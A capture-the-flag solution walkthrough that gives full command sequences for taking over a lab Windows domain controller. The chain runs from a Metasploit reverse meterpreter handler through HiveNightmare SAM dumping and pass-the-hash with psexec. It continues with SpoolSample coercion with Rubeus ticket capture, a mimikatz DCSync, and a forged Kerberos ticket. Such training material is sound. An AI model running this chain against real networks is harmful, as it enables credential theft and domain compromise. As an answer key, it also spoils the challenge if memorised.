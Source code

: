 # Sack the DC Solution

    In this challenge you are given a machine named 'pc3-win10-victim'. You need to use this machine to open up a listener for a vulnerable machine on a domain controlled network.

    Once in that machine, you will use the HiveNightmare exploit to authenticate as a privileged user in order to run the Rubeus listener and gain the first flag.

    You will then use the SpoolSample exploit to authenticate to the Domain Controller, where you will find a second flag.

    You will then have to complete a few things inside the Domain Controller, such as adding a privileged user and adding a file onto the machine.

1. To set up your metasploit handler to receive the incoming connection from the Windows machine follow these steps:
    - Open up terminal and type "msfconsole"
    - From the Metasploit console, type the following commands

    ```
    > use exploit/multi/handler
    > set payload windows/x64/meterpreter_reverse_http
    > set lhost 0.0.0.0
    > set lport 80
    > exploit -j
    ```
    - Your handler is now set up as a job and is awaiting a connection from the Windows machine.
2. To enter that session, type in "sessions" and find the session ID for "dfloyd", enter that session by typing `sessions -i #` (where # is the ID).

     <img src="img/b06-image1.png">

3. Next, you are going to want to upload your exploits (SpoolSample and HiveNightmare):

    ```
    upload Desktop/ExploitTools/SpoolSample.exe C:\\Users\\dfloyd\\Desktop
    upload Desktop/ExploitTools/Invoke-HiveNightmare.ps1  C:\\Users\\dfloyd\\Desktop
    ```

    <img src="img/b06-image2.png">

4. The `HiveNightmare.ps1` script will gather the files needed to elevate permissions. Execute the HiveNightmare exploit by running the following commands: 

    ```
    shell
    powershell
    cd C:\Users\dfloyd\Desktop
    ./Invoke-HiveNightmare.ps1 -path C:\\Users\\dfloyd\\Desktop
    ```

     <img src="img/b06-image3.png">

5. To download the files on your Kali Linux machine, you will need to click control + c and type "y" when prompted. This will bring you back to the meterpreter window. Once in that window type the following commands:
    ```
    download C:\\Users\\dfloyd\\Desktop\\Sam.hive1 /home/user/
    download C:\\Users\\dfloyd\\Desktop\\Soft.hive1 /home/user/
    download C:\\Users\\dfloyd\\Desktop\\Sys.hive1 /home/user/
    ```
     <img src="img/b06-image4.png">

6. Click `File -> New Tab` to open up another terminal window. Execute the following command to see teh local SAM hashes of the Window's machine that were dumped by HiveNightmare: 

    ```
    secretsdump.py -system Sys.hive1 -security Soft.hive1 -sam Sam.hive1 local
    ```

    <img src="img/b06-image5.png">

7. To connect to Window's machine as user instead of dfloyd, type the following, where userhash is the hash that follows "User:1001:" and ends before ":::" and IP is the IP address of the windows machine.

    ```bash
    psexec.py -hashes Userhash user@ip cmd.exe
    ```

    <img src="img/b06-image6.png">

    To find the IP you can go into the other tab, type `shell` then `ipconfig`.

8. You should now be logged in as `nt authority\system`. A simple `whoami` command would tell you that. From here you can obtain the first token using the following commands:

    ```
    powershell
    cd C:/Users/Administrator/Desktop
    cat token.txt
    exit
    ```

9. Next you are going to want to active a TGT Monitoring listener by using the following commands: 

    ```
    cd C:/Users/dfloyd/Desktop
    Rubeus.exe monitor /interval:1
    ```

    <img src="img/b06-image7.png">

10. Navigate back to the other tab, with the Rubeus listener remaining open, enter a powershell session (`shell -> powershell`) and enter the following commands to use the spoolsample exploit:

    ```
    cd C:/Users/dfloyd/Desktop
    ./SpoolSample.exe dc1.enterprise.local WIN10-A.enterprise.local
    ```

    <img src="img/b06-image8.png">

11. Once you run the above command, move over to the Rubeus listener tab. There will be a new TGT for `DC1$@ENTERPRISE.LOCAL`. There is a large Base64EncodedTicket. Copy and paste this ticket into a text editor and remove all of the blank space so the entirety of the ticket is in one line.

    <img src="img/b06-image9.png">

12. Once you have the ticket with all of the whitespace removed, go back to the tab that is logged in as `enterprise\dfloyd`. Enter the command

    ```
    ./Rubeus.exe ptt /ticket:*paste ticket*
    ```

    <img src="img/b06-image10.png">
    To make sure your ticket was imported, use the command:

    ```
    ./Rubeus.exe klist
    ```

     You should see a ticket that has "DC1$" as Client Name.

13. Enter the following commands to dump the ticket:

    ```
    ./mimikatz
    lsadump::dcsync /user:DC1$
    ```

    <img src="img/b06-image11.png">

14. Next you will want to open a new tab on the Kali machine. Navigate to `Desktop/impacket-0.9.23/examples`. To generate a ticket, enter the command below replacing the nthash and domain-sid with values found in the previous step.

    Note: the "-1000" of the Object Security ID found above is omitted from the domain-sid. 
    ```
    ./ticketer.py -nthash 0c457802a54564e590a030c9e38a8051 -domain-sid S-1-5-21-764921041-1137357192-4117662831 -domain enterprise.local -spn cifs/dc1.enterprise.local Darth
    ```
    - nthash is the HASHNTLM
    - domain-sid is the Object Security ID
    - domain is enterprise.local
    - spn is cifs/dc1.enterprise.local Administrator

    <img src="img/b06-image12.png">

    Enter the command:

    ```
    export KRB5CCNAME=Darth.ccache
    ```

15. Next type in the following command to open a shell:
    ```
    python3 psexec.py ENTERPRISE.local/Darth@DC1.ENTERPRISE.local -k -no-pass
    ```

    <img src="img/b06-image13.png">

    If this command fails, type in the following then try again.
     ```
    sudo ntpdate dc1.enterprise.local
    ```

16. From the same window, open Powershell by typing `powershell`. Then navigate to the administrator desktop to get the final token.

    ```powershell
    cd C:\Users\Administrator\Desktop
    cat token.txt
    ```